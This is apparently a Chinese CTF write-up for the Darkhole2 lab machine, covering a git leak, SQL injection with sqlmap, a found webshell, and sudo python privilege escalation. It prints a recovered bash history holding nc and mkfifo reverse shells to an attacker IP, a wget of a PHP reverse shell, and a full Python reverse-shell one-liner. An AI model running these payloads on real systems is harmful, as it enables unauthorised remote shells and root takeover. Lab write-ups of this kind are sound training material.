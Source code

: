 # Darkhole2

学到了学到了..第一步先用nmap扫

 ```
 nmap -sS -v -T4 -Pn -A -p 0-65535 172.192.168.235.135
 
 ```



扫出来开了22和80端口，80端口扫出来之后有个.git文件夹，这里注意用到的工具是git_extract(githack扫出来的东西并不是很行，)

![image-20211201214254932](https://gitee.com/yyssllz/pic/raw/master/image-20211201214254932.png)

用extract扫出来的是这个，如果是用githack则是

```php
<?php
session_start();
require 'config/config.php';
if($_SERVER['REQUEST_METHOD'] == 'POST'){
    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
    if($check->num_rows){
        $_SESSION['userid'] = 1;
        header("location:dashboard.php");
        die();
    }
https://github.com/wangyihang/GitHacker.git
```

这里也可以使用githacker，githack只能恢复到最新版本，所以就看不到上面那一段了，登录进去之后有个sql注入，直接sqlmap就可以一把梭

![image-20211201214620480](https://gitee.com/yyssllz/pic/raw/master/image-20211201214620480.png)

得到用户名，登录上去之后查看历史记录发现：

```
jehad@darkhole:/$ cat ~/.bash_history
clear
ls
cd ..
sl
ls
cd losy
ls -la
cd .ssh/
ls
cat id_rsa
ls
id_rsa
cat id_rsa
ls -al
ls -la
cd ..
ls
ls -al
cd .ssh/
ls -la
cd .ssh/
ls 
cat id_rsa
ls
nano authorized_kyes 
ls
ls -la
rm authorized_kyes 
clear
cat authorized_keys 
ls -la
clear
automat-visualize3 
cat authorized_keys 
ls
cd ..
ls -la
clear
ls -la
cd .ssh/
cd .
cd ..
ls -la
ls -al
clear
ls- la
ls 
cd losy/
ls -la
cd .ssh/
ls
clear
ls -a
sl -al
c.
cd ..
ls -la
cd .ssh/
ls
ls -la
cd ..
cd .ssh/
ls
ls -la
ls
cat authorized_keys 
cat id_rsa
cat id_rsa.pub 
cat authorized_keys 
touch authorized_kyes
ls
rm authorized_kyes 
rm authorized_keys 
clear
ls
ls -la
cd ..
ls
ks
ls
cd .ssh/
ls
cat .ssh/id_rsa
cd .ssh/
ls
ls -la
cat id_rsa
ls -la
cd ..
cd .ssh/
ls
cat id_rsa
ls -la
cat id_rsa
ls
cd ..
cd .ssh/
ls -al
cat id_rsa
clear
cd /home/losy/
ls
ls -la
cd .ssh/
clear
ls -la
cat id_rsa
clear
netstat -tulpn | grep LISTEN
ssh -L 127.0.0.1:9999:192.168.135.129:9999 jehad@192.168.135.129
curl http://localhost:9999
curl "http://localhost:999/?cmd=id" 
curl "http://localhost:9999/?cmd=id" 
curl http://localhost:9999/
cd /opt
ls
cd web
ls -la
ssh -L 127.0.0.1:90:192.168.135.129:9999 jehad@192.168.135.129
curl "http://localhost:9999/?cmd=id"
cat /etc/crontab 
exit
curl "http://localhost:9999/?cmd=wget http://google.com"
curl "http://localhost:9999/?cmd=wget&http://google.com"
curl "http://localhost:9999/?cmd=wget%20http://google.com"
curl "http://localhost:9999/?cmd=chmod%20+s%20/bin/bash"
ls -la /usr/bin/bash
curl "http://localhost:9999/?cmd=cat%20/etc/passwd"
curl "http://localhost:9999/?cmd=nc%20-e%20/bin/sh%20192.168.135.128%204242"
curl "http://localhost:9999/?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>&1|nc%20192.168.135.128%204242%20>/tmp/f"
clear
curl "http://127.0.0.1:9999/?cmd=ls -la"
curl "http://127.0.0.1:9999/?cmd=ls%20-la"
curl "http://127.0.0.1:9999/?cmd=cd%20~&ls"
curl "http://127.0.0.1:9999/?cmd=cd%20~&&ls"
curl "http://127.0.0.1:9999/?cmd=cd%20~||ls"
curl "http://127.0.0.1:9999/?cmd=cd%20/home/losy%20&&%20ls"
curl "http://127.0.0.1:9999/?cmd=python3"
curl "http://127.0.0.1:9999/?cmd=/usr/binpython3"
curl "http://127.0.0.1:9999/?cmd=/usr/bin/python3"
curl "http://127.0.0.1:9999/?cmd=whoami"
curl "http://127.0.0.1:9999/?cmd=wget%20192.168.135.128:8080/php-reverse-shell.php"
curl "http://127.0.0.1:9999/?cmd=ls"
curl "http://127.0.0.1:9999/?cmd=ls%20-la"
curl "http://127.0.0.1:9999/?cmd=wget%20192.168.135.128:8080/php-reverse-shell.php"
curl "http://127.0.0.1:9999/?cmd=wget%20http://192.168.135.128:8080/php-reverse-shell.php"
curl "http://127.0.0.1:9999/?cmd=ls%20-la"
ls
curl "http://127.0.0.1:9999/?cmd=ls%20-la"
clear
netstat -tulpn | grep LISTEN
curl "http://192.168.135.129/"
curl "http://127.0.0.1:9999/"
curl "http://127.0.0.1:9999/?cmd=id"
curl "http://127.0.0.1:9999/?cmd=nc"
curl "http://127.0.0.1:9999/?cmd=nc -e /bin/sh 192.168.135.128 4242"
curl "http://127.0.0.1:9999/?cmd=chmod u+s /bin/bash"
curl "http://127.0.0.1:9999/?cmd=chmod +s /bin/bash"

```

这里有个webshell发现很可疑(并且用户是losy，不是jehad)，curl 过去之后发现可以执行命令。本地测了一些用nc，bash什么的弹shell的感觉都不是很好使，用Python的反弹shell直接打过去了。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```



之后get到了losy的用户权限，同样的查看history

![image-20211201214838547](https://gitee.com/yyssllz/pic/raw/master/image-20211201214838547.png)

拿到用户的密码，登录。然后尝试提权



sudo -l 发现有python的sudo权限，那么直接来就好了（当然历史里面也提到了）：

```python
sudo python3 -c "import pty;pty.spawn('/bin/bash')"
```

提权成功，这里我专门去查了一下sudo，原来sudo的东西用完以后就直接变成root了（确实蛮危险的）